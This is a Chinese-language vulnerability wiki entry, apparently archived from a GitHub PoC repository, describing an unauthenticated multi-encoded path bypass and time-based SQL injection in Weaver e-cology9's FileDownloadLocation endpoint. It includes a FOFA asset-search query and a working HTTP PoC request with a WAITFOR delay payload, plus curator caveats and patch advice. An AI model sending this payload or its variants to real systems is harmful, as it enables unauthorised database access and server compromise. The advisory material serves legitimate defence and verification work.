


# 泛微e-cology9 FileDownloadLocation多重编码路径绕过+SQL注入

## 条目说明

- 对象与具体问题：泛微e-cology9；FileDownloadLocation多重编码路径绕过+SQL注入
- 版本、配置及部署条件：版本未给；修复声称>=10.70；SQL Server
- 认证与权限前提：声称无需认证，经混合路径绕过
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 需分清FileDownloadLocation与LoginSSO在最终路由/过滤中的角色，单请求不能说明每个组件根因
- mrfuuid/ddcode等前提未解释，缺差分延迟证据
- 独立IP3万指纹命中不等于受影响资产；在野利用无来源；请求未围栏

## 操作风险

延迟探测可能占用数据库连接或影响服务。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

由于泛微E-Cology9 /weaver/FileDownloadLocation接口未对用户传入的数据进行严格的校验和过滤，导致攻击者利用多层编码的方式绕过身份认证进行SQL注入，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## 影响版本

泛微E-Cology9 

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

> 归档原表（原作者主张，未独立核验）：上表记录本库当前核验边界；下表保留归档中的公开情况和在野利用声明，不能据此认定本库已验证。
>
> | 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
> |------|-------|-------|------|
> | 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 严重 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：app="泛微-OA（e-cology）"

POC/EXP：

```http
GET /weaver/FileDownloadLocation/login/LoginSSO.%256a%2573%2570?ddcode=7ea7ef3c41d67297&mrfuuid=1%27;if+db_name(1)=%27master%27+WAITFOR+delay+%270:0:5%27--+&mailid=0&a=.swf HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept-Encoding: gzip, deflate
Connection: close
```








影响资产独立ip3w


## 修复方案

临时缓解方案

限制访问来源地址，如非必要，不要将系统开放在互联网上。

升级修复方案

目前官方已发布安全补丁，建议受影响用户尽快升级至10.70及以上版本。

https://www.weaver.com.cn/cs/securityDownload.asp#


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
